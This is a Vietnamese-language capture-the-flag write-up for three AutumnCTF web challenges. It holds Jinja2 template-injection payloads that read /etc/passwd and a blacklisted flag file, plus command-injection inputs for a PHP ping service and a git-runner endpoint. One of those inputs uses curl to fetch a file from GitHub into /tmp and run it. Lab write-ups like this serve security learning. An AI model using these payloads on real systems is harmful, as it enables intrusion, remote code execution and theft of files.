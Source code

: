 ```yaml
---
title: AutumnCTF ISP Write-up
date: 2022-08-10
categories: [writeup]
tags: [web]
---
```

# AutumnCTF ISP

# Hello my fen

Sau khi đọc source và biết được backend là flask jinja 2 thì có thể đoán luôn được là bài này bị dính SSTI, giờ tìm cách bypass black list và white list của bài thôi.

Lên payload all the things chọn một payload thuộc phần read remote file: `{{get_flashed_messages.__globals__.__builtins__.open("/etc/passwd").read()}}`

Sửa file `/etc/passwd` thành `[app.py](http://app.py)` để đọc thử thì thấy kết quả trả về đúng là nội dung file. Giờ thì sẽ làm sao để có thể in ra được nội dung của file `flag.txt`  vì từ `flag` đã nằm trong blacklist

![Untitled](/assets/img/img-wu/AutumnCTFISP/Untitled.png)

Đến đây thì ta phải dùng hàm `join()` của python để nối chuỗi lại với nhau tạo thành tên file `flag.txt`.

Payload: `{{get_flashed_messages.__globals__.__builtins__.open("lag.tx".join("ft")).read()}}`

Flag: **`FLAG{did-you-really-understand-ssti??}`**

# Ping service v1

Chức năng của website sẽ là nhập một địa chỉ ip rồi sẽ chạy lệnh ping đến địa chỉ ip đó

![Untitled](/assets/img/img-wu/AutumnCTFISP/Untitled%201.png)

⇒ liên quan đến Command Injection

Ctrl+U lên để check source thì thấy có ?debug, vào check source nào

```php
<?php
if (isset($_GET['debug'])) {
    die(show_source(__FILE__));
}
if (isset($_GET['addr'])) {
    $addr = $_GET['addr'];
    $addr = preg_replace('/\||&|;|`|{|}|"|\'|cat|tail|>|<|\n/', ' ', $addr);
    $cmd = 'ping -c 2 ' . $addr . ' 2>&1';
    $ans = shell_exec($cmd);
    $ans = '<h3>' . preg_replace('/\r|\n/', '<br/>', $ans) . '</h3>';
}
```

Bên trên là đoạn code cần chú ý, phía backend sẽ dùng hàm `preg_replace()` để filter input mà người dùng nhập vào. Nhưng ở đây ta có thể dùng câu lệnh ví dụ như `$(pwd)` để bypass filter này.

![Untitled](/assets/img/img-wu/AutumnCTFISP/Untitled%202.png)

Hướng làm bây giờ sẽ là up 1 file bất kì có chứa nội dung là `cat /flag` trên nền tảng github. Sau đó dùng lệnh `curl` để tải file về phía server. Phải thay đổi vị trí tải file vị trí folder hiện tại `/var/www/html` sẽ không cho phép tạo thêm file

Tạo file trên github

![Untitled](/assets/img/img-wu/AutumnCTFISP/Untitled%203.png)

Sau đó vào phần raw, copy url.

Lệnh `curl` cần dùng:

```php
$(curl https://raw.githubusercontent.com/kmaron1n/temp/main/a.txt -o /tmp/a)
```

câu lệnh trên sẽ gán nội dung của file a.txt vào file mới tạo là `/tmp/a` 

Check xem folder `/tmp` đã có file a chưa:

![Untitled](/assets/img/img-wu/AutumnCTFISP/Untitled%204.png)

OK!

Giờ thì chạy file `a` rồi lấy flag thôi

![Untitled](/assets/img/img-wu/AutumnCTFISP/Untitled%205.png)

Flag: **`FLAG{not-show-stdout-when-r-stupid}`**

# Git checker

Khi truy cập vào đường dẫn ta sẽ được giao diện như sau. 

![Untitled](/assets/img/img-wu/AutumnCTFISP/Untitled%206.png)

Chức năng của website sẽ là chạy lệnh git. CHo chạy qua proxy burpsuite bắt requests, ta thấy command sẽ được truyền tới server dưới dạng JSON

![Untitled](/assets/img/img-wu/AutumnCTFISP/Untitled%207.png)

Param `args` thay đổi được, có vẻ bài này sẽ khai thác được bằng lỗi Command Injection.

Thử thay giá trị của `args` bằng một số payload, ví dụ: `;id;` ⇒ payload hoạt động

![Untitled](/assets/img/img-wu/AutumnCTFISP/Untitled%208.png)

Thử tìm xem có file flag ở đây không bằng payload `;ls` ,  flag nằm cùng thư mục luôn.

![Untitled](/assets/img/img-wu/AutumnCTFISP/Untitled%209.png)

Dùng payload `;cat /f*` được Flag

![Untitled](/assets/img/img-wu/AutumnCTFISP/Untitled%2010.png)

Flag: `FLAG{g1t-c0mm4nd_1sn't_s4f333}`